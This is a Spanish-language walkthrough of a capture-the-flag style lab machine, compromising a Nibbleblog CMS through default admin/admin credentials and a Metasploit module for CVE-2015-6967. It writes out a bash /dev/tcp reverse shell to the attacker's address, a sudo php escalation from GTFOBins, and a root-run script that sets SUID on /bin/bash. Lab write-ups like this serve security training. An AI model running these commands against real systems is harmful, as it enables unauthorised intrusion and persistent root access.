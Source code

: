 Fecha: 13/08/2024

Empiezo haciendo nmap, encontrando únicamente un servicio Apache en el puerto 80, que no es vulnerable según searchsploit:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Entro a la web y veo el siguiente comentario `<!-- /nibbleblog -->`, por lo que decido entrar en la url http://172.17.0.2/nibbleblog

Un texto dice que para publicar fuera a http://172.17.0.2/nibbleblog/admin.php. Intento hacer #SQLi y, aunque no consigo meterme como admin me sale el siguiente mensaje en la esquina superior izquierda. 

![](Imágenes/Pasted%20image%2020240813161059.png)

![](Imágenes/Pasted%20image%2020240813161147.png)

Pruebo con el usuario y contraseña `admin`, y cuela. 

Investigando, veo que nibbleblog es un CMS para blogs, y buscando en searchsploit veo que hay vulnerabilidades para ciertas versiones: 

![](Imágenes/Pasted%20image%2020240813162331.png)

En la parte de ajustes del dashboard, encuentro que estamos ante una versión vulnerable, por lo que usaré metasploit para explotar la vulnerabilidad: 

![](Imágenes/Pasted%20image%2020240813162405.png)

```
msfconsole -q # para  que no muestre el banner al principio
search nibbleblog
use 0
info 
set user admin
set password admin
set RHOSTS 172.17.0.2
set TARGETURI /nibbleblog

```

![](Imágenes/Pasted%20image%2020240813162746.png)

![](Imágenes/Pasted%20image%2020240813163202.png)

En principio me da un fallo, pero accedendo a la página de información de la vulnerabilidad (https://nvd.nist.gov/vuln/detail/CVE-2015-6967), veo que es porque me falta instalar el plugin myimage. 

Una vez activado de nuevo, tendremos una shell de meterpreter. Con shell crearemos una shell normal. Voy a intentar usar #nc para hacerme una reverse shell más cómoda:
```
# En mi máquina (192.168.1.63):

nc -lnvp 443

# En la shell de meterpreter: 

bash -c "bash -i >&/dev/tcp/192.168.1.63/443 0>&1"

```

Haciendo sudo -l vemos que podemos ejecutar php como si fuera "chocolate". 

![](Imágenes/Pasted%20image%2020240813165936.png)

Buscando en gtfobins, encuentro lo siguiente: https://gtfobins.github.io/gtfobins/php/#sudo

```
CMD="/bin/sh"
sudo -u chocolate php -r "system('$CMD');"
```

![](Imágenes/Pasted%20image%2020240813170315.png)

Haciendo ps -aux, vemos que el root está ejecutando un archivo, que resulta pertenecer a `chocolate`. Por tanto, podemos escribir en él, haciendo por ejemplo que bash tenga el #SUID activado. De esta forma, nos haremos root ejecutando /bin/bash -p 
![](Imágenes/Pasted%20image%2020240813170613.png)

![](Imágenes/Pasted%20image%2020240813170916.png)

```
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```
